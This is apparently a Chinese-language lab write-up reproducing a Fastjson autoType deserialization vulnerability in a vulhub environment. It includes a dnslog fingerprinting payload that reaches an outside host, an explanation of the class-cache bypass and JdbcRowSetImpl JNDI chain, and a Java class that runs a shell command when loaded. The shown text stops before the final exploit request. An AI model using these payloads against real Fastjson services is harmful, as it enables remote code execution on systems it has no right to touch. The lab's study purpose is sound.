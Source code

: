 #### 指纹信息

1. 修改请求方式为 POST，并输入非法的 JSON 格式，判断是否报错。
2. 使用 dnslog 探测：{"x":{"@type":"java.net.Inet4Address","val":"xxx.dnslog.cn"}}。

#### 漏洞原理

新版本修复了 autoType 的开启；而 Fastjson 中有一个全局缓存，在类加载的时候，如果 autoType 没有开启，会先尝试从缓存中获取类，如果缓存中有，则直接返回。java.lang.Class 类对应的 deserializer 为 MiscCodec ，反序列化时会取 json 串中的 val 值并加载这个 val 对应的类。

#### 漏洞复现

注：靶机 ip ：**192.168.1.8**；攻击方(Kali) ip：**192.168.1.9**

vulhub 环境搭建成功后，访问 http://youIp:8090

使用 Burp Suite 抓包，并修改请求方式为 POST，尝试使用两种方式分别判断是否使用 Fastjson 库。

1. 修改请求方式为 POST，并输入非法的 JSON 格式，判断是否报错：

![image-20230723010622595](https://pic.mewhz.com/blog/image-20230723010622595.png)

2. 使用 dnslog 探测：{"x":{"@type":"java.net.Inet4Address","val":"xxx.dnslog.cn"}}：

![image-20230723011036697](https://pic.mewhz.com/blog/image-20230723011036697.png)



![image-20230723011024500](https://pic.mewhz.com/blog/image-20230723011024500.png)

两种方法分别判断出使用 Fastjson 库

因为目标环境是 Java 8u102 ，没有 com.sun.jndi.rmi.object.trustURLCodebase 的限制，我们可以使用 com.sun.rowset.JdbcRowSetImpl 的利用链，借助 JNDI 注入来执行命令。

在 Kali 编译以下代码：

```java
// TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

```bash
javac TouchFile.java
# 编译 java 文件为 class 文件
```
